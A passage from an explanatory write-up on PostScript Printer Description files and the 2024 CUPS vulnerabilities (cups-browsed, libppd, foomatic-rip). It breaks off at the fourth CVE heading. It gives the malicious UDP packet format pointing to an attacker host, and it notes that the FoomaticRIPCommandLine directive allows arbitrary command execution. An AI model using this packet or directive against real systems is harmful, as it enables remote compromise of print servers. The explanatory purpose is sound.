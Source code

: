 -   **How a PPD File Works**:
    -   When a print job is initiated, the PPD file helps the system translate the print request into a format the printer can understand.
    -   It provides the necessary instructions for the printer driver to produce the correct output by interpreting the selected options (resolution, paper size, etc.).

-   **Common Use Cases**:
    -   **PostScript Printers**:
        -   Primarily used for configuring PostScript printers, but they can also be used by CUPS to manage non-PostScript printers by mapping specific print features.
    -   **Driver Customization**:
        -   Often included with printer drivers or downloaded from the printer manufacturer's website, ensuring that all printer features are available to the user.

-   **Security and Maintenance**:
    -   **Misconfiguration Issues**:
        -   Incorrect or outdated PPD files may lead to misconfiguration of print jobs, causing print failures or reduced functionality.
    -   **Modifications**:
        -   PPD files can be edited manually to customize printer behavior, though improper editing may lead to errors or printing issues.


## The Vulnerabilities {#the-vulnerabilities}

-   All discovered by [evil-socket](https://www.evilsocket.net/)


### CVE-2024-47176: Malicious Packet Exploitation: {#cve-2024-47176-malicious-packet-exploitation}

-   Affects the `cups-browsed` component
-   If a packet containing a URL in the form `0 3 http://<ATTACKER-IP>:<PORT>/printers/Name` is sent to UDP port 631 on a vulnerable system, it results in `cups-browsed` connecting back to that malicious URL and sending back the kernel version and architecture of the vulnerable system.


### CVE-2024-47175: Fake Printer Addition: {#cve-2024-47175-fake-printer-addition}

-   Vulnerability in `libppd`
-   Allows an attacker to add a fake printer to the CUPS service
-   Stems from improper handling of untrusted input in PPD (PostScript Printer Description) file creation
### CVE-2024-47177: Foomatic-RIP Filter Exploitation: {#cve-2024-47177-foomatic-rip-filter-exploitation}

-   The Foomatic-RIP filter is an older filter with a history of being exploitable
-   It accepts the `FoomaticRIPCommandLine` directive in the PPD, which allows any command to be executed
-   Vulnerability persists due to backward compatibility issues with older printers


### CVE-2024-47076: Exploiting PPD Instructions and Filters: {#cve-2024-47076-exploiting-ppd-instructions-and-filters}
